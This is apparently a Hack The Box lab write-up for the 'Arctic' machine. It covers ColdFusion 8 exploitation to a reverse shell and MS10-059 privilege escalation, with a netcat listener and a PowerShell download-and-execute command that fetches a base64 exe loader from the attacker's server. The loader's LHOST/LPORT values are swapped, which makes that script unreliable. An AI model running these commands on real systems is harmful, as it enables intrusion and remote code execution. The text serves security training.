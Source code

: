 # arctic

[link to the box](https://app.hackthebox.com/machines/Arctic)

1. [scanning](#scanning)
2. [exploiting](#exploiting)
3. [pwning](#pwning)

# scanning

as with anything, we start by scanning the host's ip on all ports

```bash
$ nmap -sV -Pn -p- 10.10.10.11
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
```

the service of interest here is the `fmtp?` service. fmtp is the [file multicast transport protocol](https://engineering.virginia.edu/high-speed-networks-lab-hsn/hsn-software/hsn-software-fmtp), meaning we can probably access files from there.

![fmtp](img/fmtp.png)

visiting the website shows us a root directory.

browsing around in it leads us to this link: http://10.10.10.11:8500/CFIDE/administrator/

![coldfusion admin panel](img/coldfusion.png)

# exploiting

the adobe coldfusion admin panel tells us that we are running coldfusion 8. lets look up some exploits for it:

[literally the first result](https://www.exploit-db.com/exploits/50057)

how handy, lets try running it by modifying the python script with our own local an remote ports.

![reverse shell](img/shell.png)

which worked first try. we now have a cool shell as the `arctic\tolis` user.

first lets find the user flag by searching for it:

search the system for flag files:

```bash
> where /r c: *flag*
> where /r c: *.txt
```

the user flag is located in `c:\Users\tolis\Desktop\user.txt`

use `type` to print the contents of the file.

```bash
> type C:\Users\tolis\Desktop\user.txt
38b6a325c4a0c6c31138081b555d7c49
```

escalation time!

# pwning

first, lets get an idea of what machine we are running on.

```bash
> systeminfo
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
...
System Type:               x64-based PC
```

looks like the server is an x86_64 windows 7 SP0 (equivalent) machine.

three escalation vulnerabilities we can try are MS10-092, MS10-059, and MS10-015

in this case we will be using an MS10-059 exploit from [this repo](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Source)

after compiling the sources or downloading the precompiled binary, the easiest delivery method is to send it over a [powershell script](chimichurri.ps1)

```ps1
function Invoke-Chimichurri {
        $LPORT = 10.10.14.13
        $LHOST = 42069

        $data = [System.Convert]::FromBase64String("<BASE64 ENCODED PROGRAM>")
        $exe = [System.IO.Path]::GetTempPath() + "Chimichurri.exe"
        [System.IO.File]::WriteAllBytes($exe, $data)
        & $exe $LHOST $LPORT
}
```

start a python http server to share the file, open the listener, and run the script

```bash
$ doas python3 -m http.server 80
$ nc -lvp 42069
> powershell iex "(New-Object Net.WebClient).DownloadString('http://10.10.14.13/chimichurri.ps1'); Invoke-Chimichurri"
```

![we have root](img/root.png)

using the `where` commands that we used for user, the root flag has been found.

```bash
> type C:\Users\Administrator\Desktop\root.txt
1996670b22d05104c5ebdc3914881a05
```

congrats! youre winner.
